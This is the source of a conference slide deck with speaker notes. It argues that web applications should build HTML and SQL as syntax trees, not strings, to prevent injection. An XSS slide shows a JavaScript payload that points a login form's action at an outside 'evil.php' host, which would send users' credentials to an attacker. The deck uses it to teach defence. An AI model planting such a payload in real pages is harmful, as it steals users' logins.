






# Web Linguistics
## Towards Higher Fluency

by Arne Brasseur / [@plexus](http://twitter.com/plexus)

---
= class='haiku'

## tl;dr (in Haiku)

For formal language

Avoid plain strings at all cost

Use data structures

````notes
- make this point up front
- talk in 3 parts : What do I mean? Why do I say this? How do we that?
````

---
= class='center'

# Language
## langue, taal, sprache, 語言

---
= class='center'


```notes
I have an idea in my head : "A platypus is carrying a chicken through the forest".

Before I can say this, or even have the words in my mind, I need to have this as an idea in my mind.
```

---
= class='center'


```notes
In order to communicate this idea, I need to pull it into individual concepts
```

<!-- --- -->

<!-- = class='haiku' -->

<!-- ## Language -->

<!-- An **alphabet** to -->

<!-- construct **words** and **sentences** -->

<!-- that convey **meaning** -->


<!-- ````notes -->
<!-- This is true of both natural and formal languages. Let's go through this from bottom to top. -->

<!-- In CS there is usually more emphasis on the understanding (parsing) of languages, but here I want to go what it takes to generate language. Hence we'll start from meaning (an idea) and see how we get to spoken/written language. -->
<!-- ```` -->


````notes
````

---
= class='center'

````dot
graph platypus {
  node[shape=none color=blue fontcolor=blue];
  edge[color=blue];

  s[label=sentence shape=oval];
  subject[];
  action[];
  place[];
  verb[];
  object[];

  platypus[fontcolor=red];
  carry[fontcolor=red];
  chicken[fontcolor=red];
  forest[fontcolor=red];

  s -- subject
  subject -- platypus
  s -- action
  action -- verb
  action -- object
  verb -- carry
  object -- chicken
  s -- place
  place -- forest;
}
````

````notes
At this point we have identified the components that make up our message, and have determined how they relate to each other. Now we can go on and serialize this message.
````

---
= class='center'

<span class="box">A platypus</span>
<span class="box">is carrying</span>
<span class="box">a chicken</span>
<span class="box">in the forest</span>

````notes
Now we can turn this tree into a linear list of words, ready to be uttered.
````

---
= class='center'



````notes
And turn these words into sounds.
````

---
= class='thumb'

## Magic of language

* Listener reconstructs abstract representation
* Identical "tree" is shared between speakers
* Each derive meaning from this representation

---
= class='center'

# Formal Language

---
= class='statement center'

a **formal language** is

a **set of strings** of symbols

governed by **strict rules**

---
= class='statement center'

These rules form the **grammar**

of the language, they specify

how to **generate** valid strings

---

```
alphabet = {0, 1, 2, 3, 4, 5, 6, 7, 8, 9,
            +, *, (, ), =}

<equation>   ::= <expression> = <expression>

<expression> ::= <number>  | <sum> |
                 <product> | ( <expression> )

<number>     ::= <digit> | <digit> <number>

<digit>      ::= 0 | 1 | 2 | 3 | 4 |
                 5 | 6 | 7 | 8 | 9

<sum>        ::= <expression> + <expression>

<product>    ::= <expression> * <expression>
```

---

well-formed :

```
5 = 3 + 2
4 * 4 = 10 + 6
10 + 20 = ( 3 + 5 ) * 7
```

&nbsp;

not well-formed :

```
5 = + 5
10 = 15 - 5
3 * 5 + 7
```

---
= class='center'



---
= class='statement center'

The **meaning** of a sentence

corresponds with

its **syntax tree**

---

## Language is everywhere

* Programming languages
* Markup & styling languages
* Data languages
* Network protocols

---
= class='lang_words center'


---
= class='statement center'

Your application either

**consumes** or **generates**

these languages

---
= class='statement center'

In either case it should

use **syntax trees**

to do so

---
= class='center'

# Why ?


---
= class='center'

# XSS
## Cross site scripting


---

## XSS

Code like this

```ruby
"<div>#{ @post.body }</div>"
```

&nbsp;
&nbsp;

Will lead to malicious injection

```javascript
document.getElementById('login_form').
  action="http://208.246.24.14/evil.php"
```

```notes
So what exactly is XSS? This is an example of a 'persisted' XSS attack. Anyone who can sneak HTML in our pages can do nasty stuff.

This gives an attacker all privileges the current user of your app has.
```

---
= class='statement center'

**session hijacking**

attacker can surf the site with user credentials

---
## Escape!

The common wisdom is to "escape" the inserted value

```html
<div>#{ escape_html(@post.body) }</div>
```

&nbsp;
&nbsp;

Now the code is harmless

```html
<div>
  &lt;script&gt;document.getElementById('login_form').action=http://208.246.24.14/evil.php&lt;/script&gt;
</div>
```

```notes
So what to do? This is what you learn in Web security 101, make sure you HTML escape whatever you don't trust, and you'll be fine.
```

---
= class='haiku'

## XSS

Is a more common

vulnerability than

buffer overflows

```notes
So if it's that simple, why is it still that common?
```

---

> [CVE-2013-1857] XSS Vulnerability<br/> in the `sanitize` helper of Ruby on Rails

&nbsp; &mdash; @tenderlove on rails-security-ann

<p></p>

> Given all the fun we've had with security issues

&nbsp; &mdash; Rails 4 beta announcement

```notes
It's been an interesting winter for Rails security issues, and hopefully security is still at the front of peoples minds.
```

---
= class='statement center think'

&nbsp;

**why** is it so **hard?**

&nbsp;

---

What side of the escape are we on?


Steps to reproduce

```ruby
escape_html(
  escape_html(
    'ó'.force_encoding('ISO-8859-1')
       .encode('UTF-8')
       .sub('Ã', '&atilde;')
       .sub('³','&sup3;')))
```


```notes
This is a real life shipping label. This may seem silly but it happens all the time, we either escape too much or too little.

I actually noticed this myself although less extreme, when sending a parcel to a friend I wanted to add a middle name between quotes, these ended up on the parcel as HTML entity.
```

---

Manual escaping? **hard**

Let's automate!

```html
# using HTML::SafeBuffer
<div><%= @post.body %></div>
```

And it **just works**

```notes
This is (at least in Ruby) the state of the art of XSS prevention, it's part of Rails 'secure by default' philosophy.
```

---

We've turned the problem around

Whitelist instead of blacklist

```ruby
def helper
  "<p> haikus are pretty <p>".html_safe
end
```

&nbsp;

**We're still manually deciding what (not) to escape**

```notes
This is better because whitelist > blacklist. It is a step forward, less strings will be left unescaped, but you can hardly call this a structural solution.
```

---

## The problem

Semantics of string are twofold

* a string
* a textual representation of HTML

---
=  class="center"



---
=  class="center"




---
= class='statement center'

this is **not** a **new concept**

we **already do this** for SQL

---
= class='center'

```ruby
@users = User.where(name: params[:query])
```

---
= class='center'



```notes
Now we can revisit our injection attacks. In this case a syntax tree is built, this can then be used to generate the SQL dialect we need.

This is good because we can express our intent (semantics), and the data structure reflects those semantics.
```

---

```ruby
def helper
  "<p> haikus are pretty <p>".html_safe
end
```

---
= class='center'



---
= class='center'

# HTML

---
= class='statement center'

Language, a **set of strings**

Browsers accept **every string**

Is this a language?

---
= class='center'

# Postel's principle

---
= class='statement center'

Be **conservative** in what you **send**

be **liberal** in what you **accept**

---
= class='statement center thumb'

&nbsp;

Be **conservative** in what you **send**

&nbsp;

---
= class='statement center cry'

&nbsp;

be **liberal** in what you **accept**

&nbsp;


---
= class='statement center'

HTML "parsers" are **rewriting engines**

To stay safe we should stay strict

Let someone else handle this hairy mess

---
= class='center'

# How?

---

## Shopping list

1. A solid data type for syntax trees
2. quality parsers/generators
3. problem domain specific APIs to deal with 1.

---
= class='center'
# Apples and snakes architecture

---
= class='statement center'

Keep the **snakes** out of the app

parse/generate at the app boundary

Inside the app, only **apples**

---


---
= class='center'

# Building trees
## Constructing literals
---

## Objects

```ruby
@doc = Nokogiri::HTML::Document.new
@html = Nokogiri::XML::Element.new('html', @doc)
@doc << @html
@doc.to_html
```

```notes
The default for doing these kind of things, but ; tedious to work with ; only HTML 4.01 (because of libxml2), optimized for parsing.
```

---

## Builder syntax

```ruby
HTML::Builder.new do
  html do
    body do
      p 'hello, world'
    end
  end
end
```

```notes
Can be a pain to keep track of `self`, some magic involved, but feels natural.

Important that the result can be recombined, not the case with Nokogiri::HTML::Builder.
```

---

## S-expressions

```lisp
('p ('em "hello, world"))
```

&nbsp;

```ruby
[:p, [:em, "hello, world"]]
```

```notes
Simple, lightweight, easy to reason about.
```

---
= class='statement center'

The data structure must be

**composable** and

**easy to reason** about

---

Now you can actually program your HTML

````ruby
class MyController
  def index
    page = SignupPage.new
    if request.post?
      page.rewrite(PopulateFormFields.new(params))
    end
    render Layout.new(page)
  end
end
````

```notes
Other ideas : add file/line numbers in dev mode ; structural validation ; presentation vs data separation.
```

---
= class='center'

# Hexp

## Demo

---
= class='center'

# In summary

---
= class='center'

# Don't serialize by hand

---
= class='statement center'

Don't **reinvent the wheel** (badly)

mixing s11n with logic violates **SRP**

Let a library do the serialization for you

---
= class='center'

# Aim high level

---
= class='statement center'

You care about **semantics**

the closest representation

is the **syntax tree**

---
= class='center'

# More expressive power

---
= class='statement center'

Data structures are **programmable**

they make your code

more **powerful** and **expressive**

---
= class='statement center'

Oh and BTW

injection attacks

---


---
= class='center'


---
= class='center'

<div class='huge'>

Q ?

</div>

---

# Thank you!


---

# References

---

## Blog posts

* [Safe String Theory for the web](http://acko.net/blog/safe-string-theory-for-the-web/) by Steven Wittens
* [Structurally Fixing Injection Bugs](http://www.more-magic.net/posts/structurally-fixing-injection-bugs.html) by Peter Bex
* [Working with HTML in Haskell](http://adit.io/posts/2012-04-14-working_with_HTML_in_haskell.html) by Aditya Bhargava
* [A type-based solution to the “strings problem”: a fitting end to XSS and SQL-injection holes?](http://blog.moertel.com/posts/2006-10-18-a-type-based-solution-to-the-strings-problem.html) by Tom Moertel
* [The Devil in Plain Text](http://devblog.arnebrasseur.net/2013-04-plain-text) by Arne Brasseur

---

## Books

* Speaking by Willem J.M. Levelt
* An Introduction to Formal Languages and Automata by Peter Linz

---

## Security

* [Langsec](http://langsec.org/)
* [The Science of Insecurity](http://www.youtube.com/watch?v=3kEfedtQVOY) by Meredith L. Patterson
* [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

---

## Software

Ruby

* [Formless](https://github.com/Wardrop/Formless)
  Completely transparent, unobtrusive form populator for web applications and content scrapers
* [Loofah](https://github.com/flavorjones/loofah)
  HTML/XML manipulation and sanitization based on Nokogiri

Common Lisp

* [CL-WHO](http://jandmworks.com/cl-who-ext.html)

Haskell

* [BlazeHtml](http://jaspervdj.be/blaze/tutorial.html)
* [Yesod framework](http://www.yesodweb.com/book/widgets)
* HXT

!!---
!!# Ruby
!!
!! &nbsp; | &nbsp;
!!--- | ---
!!**alphabet** | character set (UTF-8)
!!**words** | keywords, var names, symbols, ...
!!**sentences** | expressions
!!**meaning** | what it does
!!
!!---
!!# HTML
!!
!! &nbsp; | &nbsp;
!!--- | ---
!!**alphabet** | character set (UTF-8)
!!**words** | tags, attr names, symbols, ...
!!**sentences** | DOM tree
!!**meaning** | How it is rendered
!!
!!----
!!
!!
!!---

!! ----
!! = data-x="+0" data-y="+400" skip
!!
!! ## Bytes
!!
!! ```ruby
!! [ "R", "\xC3", "\xBC", "b", "\xC3", "\xBF" ]
!! ````
!!
!! ----
!! = data-x="+0" data-y="+400"
!!
!! ## Characters
!!
!! ```ruby
!! [ "R", "ü", "b", "ÿ" ]
!! ````
!!
!! ----
!! = data-x="+0" data-y="+400"
!!
!! ## Tokens
!!
!! ```ruby
!! ["<p>", "\n  ", "<em>", "Rübÿ", "</em>", "</p>"]
!! ````
!!
!! ----
!! = data-x="+0" data-y="+400"
!!
!! ## Syntax tree
!!
!! ```dot
!! graph foo {
!!   html[shape="circle"];
!!   head[shape="circle"];
!!   body[shape="circle"];
!!   d1[label="p" shape="circle"];
!!   d2[label="em" shape="circle"];
!!   d3[label="\"Rübÿ\"" shape="none"];
!!   n[label="\"\\n  \"" shape="none"]
!!   html -- head;
!!   html -- body;
!!   body -- d1;
!!   d1 -- d2;
!!   d1 -- n;
!!   d2 -- d3;
!! }
!! ```
!!
!! ---
!! ## Semantics
!!
!! * What does it mean
!! * What does it do
!!
!! ````
!! <p>
!!   <strong>Rübÿ</strong>
!!   needs more
!!   <abbr title="Heavy Metal Umlauts">HMÜ</abbr>
!! </p>
!! ````
!!
!! <p>
!!   <strong>Rübÿ</strong>
!!   needs more
!!   <abbr title="Heavy Metal Umlauts">HMÜ</abbr>
!! </p>
!!
!! ---
!!
!! The closest we get to representing semantics
!!
!! is through syntax trees
!!
!! and yet we are dealing with HTML at the character level
!!
!! ---
!!
!! ## Security
!!
!! * XSS, SQLi
!! * Common wisdom : proper escaping
!!
!! ---
!!
!! ## The problem
!!
!! ````ruby
!! <p>#{@text}</p>"
!! ````
!!
!! ---
!!
!! ## We think we're doing this
!!
!! Add a single text node inside the paragraph
!!
!! ````dot
!! graph para {
!!   p[shape="circle"];
!!   text[label="\"text\"" shape="box"];
!!
!!   p -- text;
!! }
!! ````
!!
!! ---
!!
!! ## Instead we're doing this
!!
!! Add an arbitrary subtree in our HTML
!!
!! ````dot
!! graph para {
!!   p[shape="circle"];
!!   script[shape="circle"];
!!   evil_code[label="evil_code();" shape="box"];
!!   p -- script;
!!   script -- evil_code;
!! }
!! ````
!!
!!
!! ---
!!
!! ## Rails Templates
!! ### Pidgin vs Creole
!!
!! ````erb
!! <ul class="nav">
!!   <% unless @cart.empty? %>
!!     <li>
!!       <%= link_to raw(
!!             "<p class='icon-cart'>Cart</p>"
!!           ), cart_path %>
!!     </li>
!!   <% end -%>
!! </ul>
!! ````
!!
!! ---
!!
!! ## Pidgin
!!
!! * Ad-hoc mix of two languages
!! * No fixed rules or grammar
!! * No native speakers
!!
!! ---
!!
!! ### Creole
!!
!! * Second generation
!! * One language begins to dominate
!! * Proper grammar emerges
!!
!! ---
!!
!! ## In Summary
!!
!! Manually escaping is hard
!!
!! Generating correct HTML is hard
!!
!! Strings are very low level when reasoning<br />
!! about application semantics
!!
!! ---
!!
!! ## Try something different
!!
!! * Plain text coming in?
!! * => parse to data structure
!! * Plain text going out?
!! * => Generate from data structure
!!
!! ---
!!
!! ## Inside the application
!! ### No more strings
!!
!! ---
!!
!! ## Fringe Benefits
!!
!! MOAR POWER
!!
!! ---
!! # scratch
!!
!! ```dot
!! graph lang {
!!   rankdir="LR";
!!   meaning[shape="none"];
!!   sentences[shape="none"];
!!   words[shape="none"];
!!   sounds[shape="none"];
!!   meaning -- sentences[shape="none"];
!!   sentences -- words[shape="none"];
!!   words -- sounds[shape="none"];
!! }
!! ```
!!
